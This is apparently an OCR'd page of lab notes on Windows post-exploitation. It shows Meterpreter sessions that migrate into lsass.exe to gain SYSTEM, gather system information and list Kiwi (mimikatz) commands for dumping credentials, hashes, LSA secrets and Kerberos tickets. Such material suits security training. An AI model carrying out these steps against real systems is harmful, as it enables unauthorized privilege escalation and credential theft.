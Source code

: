 ```
 6960  1548  CompatTelRunner.exe      x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\CompatTelRunner.exe
 7008  768   svchost.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 7084  768   amazon-ssm-agent.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
```

```
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > pgrep lsass
780
meterpreter > migrate 780
[*] Migrating from 5112 to 780...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

```
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

```

```
meterpreter > help kiwi

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

```
